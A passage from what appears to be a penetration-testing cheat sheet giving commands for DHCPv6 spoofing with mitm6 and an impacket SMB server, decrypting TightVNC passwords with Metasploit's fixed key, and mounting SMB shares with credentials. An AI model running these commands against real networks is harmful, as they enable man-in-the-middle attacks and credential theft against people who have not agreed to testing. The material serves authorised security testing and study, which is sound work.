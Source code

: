 


## DHCPv6 Spoofing



### mitm6

* [github.com/fox-it/mitm6](https://github.com/fox-it/mitm6)
* [blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [intrinium.com/mitm6-pen-testing/](https://intrinium.com/mitm6-pen-testing/)

```
$ git clone https://github.com/fox-it/mitm6
$ python3 setup.py install
$ sudo mitm6.py -i eth0 -d megacorp.local
$ sudo impacket-smbserver -smb2support share `pwd`
```





# VNC

Decrypt TightVNC password:

```
root@kali:$ msdbrun -q
msf > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
=> "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
=> true
>> Rex::Proto::RFB::Cipher.decrypt ["f0f0f0f0f0f0f0f0"].pack('H*'), fixedkey
=> "<DECRYPTED>"
```

* [github.com/frizb/PasswordDecrypts](https://github.com/frizb/PasswordDecrypts)





# SMB




## Mounting

Mount:

```
root@kali:$ mount -t cifs '//127.0.0.1/Users' /mnt/smb -v -o user=j1v37u2k3y,[pass='Passw0rd!']
```
